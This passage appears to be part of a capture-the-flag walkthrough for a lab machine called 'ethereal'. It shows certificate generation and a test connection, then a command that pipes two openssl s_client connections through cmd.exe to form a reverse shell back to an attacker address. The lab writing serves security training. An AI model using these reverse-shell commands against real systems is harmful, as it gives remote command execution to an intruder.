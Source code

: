 With two ports I can communicate on and `openssl`, I can make a more stable
shell. First I need SSL certs for the connection.

    
    
    root@kali# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes                                                                                    
    Generating a RSA private key
    .................................................................................................................................++++                                                                                      
    ..................................++++
    writing new private key to 'key.pem'
    -----
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:
    State or Province Name (full name) [Some-State]:
    Locality Name (eg, city) []:
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:
    Organizational Unit Name (eg, section) []:
    Common Name (e.g. server FQDN or YOUR name) []:
    Email Address []:
    
    root@kali# ls *.pem
    cert.pem  key.pem
    

#### Test Connection

Now I’ll test that I can connect and send data using the following:

    
    
    ethereal> quiet ( echo "test" | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 )
    
    
    
    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
    "test"
    

#### Shell

To make a shell, I’m going to use two `openssl` calls, with one piping output
into `cmd`, and the output of that piped into the other. I can type commands
into one connection and get results back on the other. For more details, check
out [this post, OpenSSL == NC](https://blog.inequationgroup.com/openssl-nc/).

I’ll start two `openssl` servers just as above, and then run the following:

    
    
    ethereal> quiet start cmd /c "c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"
    